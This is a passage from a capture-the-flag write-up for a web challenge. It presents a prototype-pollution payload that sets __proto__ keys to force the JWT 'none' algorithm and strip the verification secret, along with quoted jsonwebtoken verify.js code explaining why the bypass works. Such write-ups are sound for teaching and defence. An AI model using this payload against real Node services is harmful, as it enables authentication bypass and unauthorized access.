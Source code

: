 **Flag:** `BPCTF{How_many_queries_did_you_use?_0b2dac556d3a}`

## Appendix
### [Web] Overkill - 2nd approach
**Payload:**
```js
{
	username: {
		"sus": "no",
		"__proto__.secretOrKeyProvider": "[Circular (username.__lookupGetter__)]",
		"__proto__.algorithms": ["none"],
		"__proto__.algorithm": "none",
		"__proto__.alg": "none",
		// "__proto__.isValid": "[Circular (username.constructor)]",
	},
	password: "any"
}
```

**Warning: This method is possible after so many trials and errors messing around with Docker localhost of the challenge instance, `jsonwebtoken`, `nestjs/jwt` and JS prototypes methods, so i suggest reading the code of such libraries carefully as well as having some JS prototype knowledge before reading eveything below!**

This approach focuses on  disabling JWT verification server-side, since there's a `None` algorithm in [list of JWT algorithms](https://github.com/auth0/node-jsonwebtoken#algorithms-supported).

Normally, only `algorithm: "none"` should be enough to do the job, but since [JWT Verify function implementation](https://github.com/auth0/node-jsonwebtoken/blob/e1fa9dcc12054a8681db4e6373da1b30cf7016e3/verify.js) is very very weird (and stupid) for `None` algorithm verification, we also need to also do these approaches along with it:

1. Include `algorithms: ["none"]` as list of algorithms, `alg: "none"` (just for safety), and `"algorithm": "none",` (it might be touched somewhere), so the code won't throw, because of this:

[*jsonwebtoken/verify.js:L144*](https://github.com/auth0/node-jsonwebtoken/blob/e1fa9dcc12054a8681db4e6373da1b30cf7016e3/verify.js#L144)
```js
if (options.algorithms.indexOf(decodedToken.header.alg) === -1) {
	return done(new JsonWebTokenError('invalid algorithm'));
}
```

- Somehow pass `undefined` or `null` as secret in parameters because of these (`hasSignature` is false because `None` algorithm has no signatures):

[*jsonwebtoken/verify.js:L108 - L130*](https://github.com/auth0/node-jsonwebtoken/blob/e1fa9dcc12054a8681db4e6373da1b30cf7016e3/verify.js#L144) (And here is [reason why this is stupid](https://github.com/auth0/node-jsonwebtoken/issues/185))
```js
if (!hasSignature && secretOrPublicKey){
	return done(new JsonWebTokenError('jwt signature is required'));
}

if (hasSignature && !secretOrPublicKey) {
	return done(new JsonWebTokenError('secret or public key must be provided'));
}

if (!hasSignature && !options.algorithms) {
	return done(new JsonWebTokenError('please specify "none" in "algorithms" to verify unsigned tokens'));
}

if (secretOrPublicKey != null && !(secretOrPublicKey instanceof KeyObject)) {
	try {
	secretOrPublicKey = createPublicKey(secretOrPublicKey);
```